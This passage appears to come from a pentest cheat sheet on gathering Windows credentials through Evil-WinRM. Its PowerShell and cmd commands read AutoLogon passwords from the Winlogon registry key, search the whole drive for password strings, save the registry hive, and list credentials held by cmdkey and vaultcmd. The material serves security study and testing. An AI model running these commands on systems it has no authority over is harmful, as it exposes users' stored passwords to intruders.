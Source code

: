 You can access the relevant registry keys for AutoLogon credentials using PowerShell via Evil-WinRM.

**1.**  **First way**: Use PowerShell to Read Registry Keys

- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

```powershell
# Query AutoLogon settings from the registry
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```

**2.** **Second way**: Check the Registry for AutoLogon Credentials directly:

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**3.** Search the System for Plaintext Credentials: Sometimes credentials are stored in files or scripts. You can search the filesystem for potential matches using **PowerShell**.

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|pwd|pass"
```

**4.** Dump the Registry and Analyze Offline: If allowed, you can export the registry hive and analyze it locally.

```powershell
# Export Winlogon Hive:
reg save "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" C:\Users\Public\winlogon.reg
```

**5.** Use Built-in Tools:  Run `cmdkey` to List Stored Credentials.

```powershell
cmdkey /list
```

**6.** Check Scheduled Tasks: Sometimes credentials are stored in scheduled tasks.

```powershell
Get-ScheduledTask | ForEach-Object { Get-ScheduledTaskInfo -TaskName $_.TaskName } | Select-String -Pattern "password|user"
```

**7.** Check Vaults:

```powershell
# List vaults (gets you the exact, non-localized names & GUIDs)
vaultcmd /list

# Common vaults to enumerate (adjust names to what /list shows)
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all

```


### Querying patterns of files with findstr
